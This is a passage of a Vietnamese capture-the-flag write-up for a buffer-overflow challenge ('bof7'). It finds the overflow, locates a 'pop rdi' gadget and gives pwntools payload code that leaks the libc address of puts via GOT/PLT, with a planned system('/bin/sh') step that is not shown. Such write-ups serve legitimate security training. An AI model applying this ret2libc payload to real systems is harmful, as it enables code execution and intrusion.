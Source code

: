 **1. Tim lỗi**

Chạy thử chương trình ta có:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof7: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=37b396094bd206b0b6fa7845eb860ac8b426b5b1, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  puts("Say something: ");
  read(0, buf, 0x78uLL);
  return 0;
}
```

Hàm read() được sử dụng để đọc chuỗi đầu vào từ bàn phím và lưu vào biến buf với kích thước tối đa là 0x78 (120) ký tự nhưng biến buf được khai báo 80 byte -> Có lỗi bof.

**2. Ý tưởng**

Có thể dùng ROP nhưng ở đây sẽ thực hiện leak libc theo tên bài.
- Leak địa chỉ libc
- Thực hiện hàm system với chuỗi '/bin/sh'

**3. Khai thác**

- Leak địa chỉ libc

```
   0x00000000004011df <+34>:    lea    rax,[rbp-0x50]
   0x00000000004011e3 <+38>:    mov    edx,0x78
   0x00000000004011e8 <+43>:    mov    rsi,rax
   0x00000000004011eb <+46>:    mov    edi,0x0
   0x00000000004011f0 <+51>:    call   0x401080 <read@plt>
```

Ta thấy biến buf cách rbp 0x50. Vậy khoảng cách từ buf đến ret là 0x50 + 0x8.

Tiếp theo tận dụng GOT và PLT để leak địa chỉ hàm 'put' trong libc. Để làm việc trên thì cần tìm gadget để pop rdi ra.

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ret2libc$ ROPgadget --binary bof7 | grep "pop rdi"
0x0000000000401263 : pop rdi ; ret
```

Ta có được đoạn code để leak được địa chỉ hàm 'puts' như sau:

```
payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendafter(b'Say something: ', payload)
```

Sau khi leak được thì quay lại hàm main để tiếp tục khai thác

![puts.png](photo/puts.png)

Vậy địa chỉ hàm puts đã được leak ra. Tiếp theo chỉ cần lưu về và tính toán để có địa chỉ libc

```
